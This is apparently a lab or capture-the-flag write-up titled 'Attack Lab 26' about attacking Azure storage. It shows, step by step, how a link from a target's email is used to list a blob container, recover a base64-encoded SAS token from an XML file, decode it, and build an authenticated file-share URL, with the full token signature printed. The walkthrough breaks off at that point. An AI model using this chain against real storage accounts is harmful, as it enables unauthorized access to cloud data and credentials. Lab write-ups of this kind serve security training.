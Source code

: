 # Attack Lab 26


```
− Gain access to a Storage Account by leveraging SAS Token by leveraging the information extracted from the inbox of Marie Williams.
− Read the Source Code of the Function App from the Azure Files and extract the connection string for Storage Account.
```

Try to access to the email link found on Marie email:

```
Dear Marie,

Your documents are uploaded and approved. You can find the documents here - https://billingprocessorstg.blob.core.windows.net/mariewilliams

In case of any changes, please upload the documents again and submit a new request.


Regards,
```
Web access:
```
<Error>
<Code>ResourceNotFound</Code>
<Message>The specified resource does not exist. RequestId:f0bab61d-501e-0012-22b5-fd1bc6000000 Time:2023-10-13T09:15:08.8791151Z</Message>
</Error>
```
With additional querystring parameters:

```
https://billingprocessorstg.blob.core.windows.net/mariewilliams?restype=container&comp=list
```
Response
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.
<EnumerationResults ContainerName="https://billingprocessorstg.blob.core.windows.net/mariewilliams">
<Blobs>
<Blob>
<Name>mapped.xml</Name>
<Url>https://billingprocessorstg.blob.core.windows.net/mariewilliams/mapped.xml</Url>
<Properties>
<Last-Modified>Wed, 11 Oct 2023 11:20:39 GMT</Last-Modified>
<Etag>0x8DBCA4C199BB41B</Etag>
<Content-Length>411</Content-Length>
<Content-Type>text/xml</Content-Type>
<Content-Encoding/>
<Content-Language/>
<Content-MD5>1Rbf9T4TjgxZDumuVadM2w==</Content-MD5>
<Cache-Control/>
<BlobType>BlockBlob</BlobType>
<LeaseStatus>unlocked</LeaseStatus>
</Properties>
</Blob>
</Blobs>
<NextMarker/>
</EnumerationResults>
```
Mapped.xml for API endpoint:
``

https://billingprocessorstg.blob.core.windows.net/mariewilliams/mapped.xml
```
Response:
```
<FileShare>
<Name>billingprocessor9a71</Name>
<Url>https://billingprocessorstg.file.core.windows.net/billingprocessor9a71</Url>
<Properties>
<Content>P3N2PTIwMjItMTEtMDImc3M9ZiZzcnQ9c2NvJnNwPXJsJnNlPTIwMjQtMDItMjlUMjA6MTc6NDZaJnN0PTIwMjMtMTAtMDFUMTE6MTc6NDZaJnNwcj1odHRwcyZzaWc9Um41SWV5eE0zSVZ6ckRTNTFPOHlQYTB0WmY3QzZWOEFvUm81TE5ScllOayUzRA==</Content>
</Properties>
</FileShare>
```

complete urld etected:
```
f0ns1@f0ns1-msi:~$ echo "P3N2PTIwMjItMTEtMDImc3M9ZiZzcnQ9c2NvJnNwPXJsJnNlPTIwMjQtMDItMjlUMjA6MTc6NDZaJnN0PTIwMjMtMTAtMDFUMTE6MTc6NDZaJnNwcj1odHRwcyZzaWc9Um41SWV5eE0zSVZ6ckRTNTFPOHlQYTB0WmY3QzZWOEFvUm81TE5ScllOayUzRA==" | base64 -d
?sv=2022-11-02&ss=f&srt=sco&sp=rl&se=2024-02-29T20:17:46Z&st=2023-10-01T11:17:46Z&spr=https&sig=Rn5IeyxM3IVzrDS51O8yPa0tZf7C6V8AoRo5LNRrYNk%3Df0ns1@f0ns1-msi:~$ 

https://billingprocessorstg.file.core.windows.net/billingprocessor9a71?sv=2022-11-02&ss=f&srt=sco&sp=rl&se=2024-02-29T20:17:46Z&st=2023-10-01T11:17:46Z&spr=https&sig=Rn5IeyxM3IVzrDS51O8yPa0tZf7C6V8AoRo5LNRrYNk%3D
```
